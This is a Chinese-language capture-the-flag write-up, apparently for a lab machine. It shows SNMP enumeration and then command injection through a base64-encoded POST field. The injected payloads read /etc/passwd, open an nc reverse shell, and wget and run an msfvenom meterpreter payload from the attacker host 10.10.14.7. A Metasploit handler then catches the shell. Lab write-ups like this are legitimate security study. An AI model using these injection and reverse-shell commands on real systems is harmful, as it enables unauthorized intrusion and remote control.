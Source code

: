 snmpwalk -c public -v 1 10.10.10.105 system

>snmpwalk -v2c -c public 10.10.10.105 .1.3.6.1.2.1.47.4.2.1.2
iso.3.6.1.2.1.47.4.2.1.2 = No more variables left in this MIB View (It is past the end of the MIB tree)
尝试获取进程列表

用admin/NET_45JDX23，登陆后。burp抓包，发现一个post方式的远程命令执行，其中quagga，应该是用户名，此功能可能是检查某用户运行的所有进程。
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-12/4.PNG)

| raw | base64 | info |
|---|---|---|
|quagga|cXVhZ2dh|
| root | cm9vdAo= | 
| `root|whoami` | xx|root|
| `root|cat /etc/passwd` | cm9vdHxjYXQgL2V0Yy9wYXNzd2Q= |
| whereis nc | /bin/nc | openbsd类型的nc，没有-e选项|
| `root|/bin/nc -e /bin/bash 10.10.14.7 9900`| xx| 无效
| `root|uname -a` | cm9vdHx1bmFtZSAtYQ== | Linux r1 4.15.0-24-generic #26-Ubuntu SMP Wed Jun 13 08:44:47 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux|
| `root|whereis wget` | xx| /usr/bin/wget|
| `pwd` | xx | /root|
| `cat /root/root.txt` |xx| can't read root.txt|
| `root|ls -al`|xx||
| `root|wget http://10.10.14.7/payload.elf;chmod +x payload.elf;./payload.elf`| 

`root|cd /root;net -e /bin/bash 10.10.14.7 2233|`

```
msfvenom --platform Linux -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=9900 -f elf -o payload.elf

python -m SimpleHTTPServer 80
root|wget http://10.10.14.7/payload.elf
handler -H 10.10.14.7 -P 9900 -p linux/x64/meterpreter/reverse_tcp
```
## 获得shell
通过web rce，msf生成载荷上传运行后，获得meterpreter shell。
